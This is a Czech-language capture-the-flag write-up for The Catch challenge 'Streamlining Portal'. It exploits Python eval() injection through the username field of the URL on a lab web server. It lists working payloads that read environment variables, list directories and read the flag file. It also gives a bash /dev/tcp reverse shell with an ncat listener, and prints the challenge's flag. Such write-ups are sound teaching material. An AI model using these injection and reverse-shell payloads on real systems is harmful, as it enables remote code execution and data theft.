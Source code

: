 # Streamlining Portal
Úloha z kategorie *Corporate websites* za 3 body

## Zadání

> Hi, packet inspector,
>
> the AI is preparing some kind of employee streamlining portal on http://user-info.mysterious-delivery.tcc. We fear this will lead to more lost packages.
>
> Your task is to break into the web and find interesting information on the server.
>
> May the Packet be with you!
>
> **Note: Solving this challenge will open 1 new challenge.**

## Nápovědy

> Use VPN to get access to the web.

## Řešení

Jako první je nutné pro vyřešení této úlohy se připojit na The Catch VPN. Bez připojení totiž není možné se připojit k webové stránce.

Na stránce ze zadání se nachází jednoduchá stránka **Welcome Page**, která zdraví uživatele. Jméno uživatele se bere z URL adresy.

Jedna z nejdůležitějších informací o stránce se nachází v headerech, přesněji `Server: gunicorn`. Jedná se o webový server napsaný v jazyce Python, což nám změnšuje okruh potencionálních útoků. Jeden z nejčastějších útoků v Pythonu je zneužití funkce `eval()`. Můžeme tedy vyzkoušet, zda nahrazení jména uživatele v URL adrese nějakým příkazem něco provede. Jako nejzákladnější příkaz lze vyzkoušet sčítání. Místo jména uživatele tedy zadáme `"and 5+5 or"`. Výsledkem je `10`, to znamená tedy, že stránka je zranitelná.

Vyskytují se dvě potencionální cesty, a to:
- Využití Pythonu pro získání flagu
- Vytvoření reverse shellu a získaní flag skrze něj

### Využití Pythonu
První si můžeme zjistit, jaké jsou nastavené proměnné v prostředí, a to příkazem `"and exec('import os') or eval('os.environ') or"`. Zde se nenachází vůbec nic zajímavého, přejdeme tedy k výpisu souborů ve složce běžící aplikace. 

K tomu využijeme příkazu `"and exec('import os') or eval('os.listdir()') or"`. A hele, nachází se zde složka **FLAG**. Zobrazíme si tedy obsah složky **FLAG** příkazem `"and exec('import os') or eval('os.listdir("FLAG")') or"`. 

Ještě zajímavější, je zde soubor `flag.txt`. Teď už stačí jen vypsat obsah souboru, a to skrze příkaz `"and eval('open("FLAG/flag.txt","r").read()') or"`. Výsledkem je hledaný flag.

### Využití reverse shellu
Druhá metoda je reverse shell. Je to o mnoho komfortnější, jelikož se okamžitě dostaneme k celému shellu. Pro využití této možnosti je potřeba mít nainstalovaný `netcat`. 

Jako první si připravíme reverse shell, a to příkzem `ncat -lvp 4444`. Na webu do URL zadáme místo jména uživatele příkaz `"and exec('import subprocess') or exec('subprocess.run(["bash","-c","bash -i &>/dev/tcp/**IP**/4444 <&1"])') or"`, kde **IP** nahradíme naší adresou na VPN, kterou získáme například příkazem `ipconfig`. Následovně se nám v terminálu otevře bash vzdáleného serveru. 

Teď už stačí jen vlézt do složky **FLAG** příkazem `cd FLAG` a vypsat flag pomocí příkazu `cat flag.txt`.

## Flag
`FLAG{OONU-Pm7V-BK3s-YftK}`

## Další užitečné odkazy

- **Command Injection** *(podrobné vysvětlení zranitelnosti)* - https://www.stackhawk.com/blog/command-injection-python/
- **Netcat Reverse Shell** *(podrobné vysvětlení reverse shellu skrze nástroj netcat)* - https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/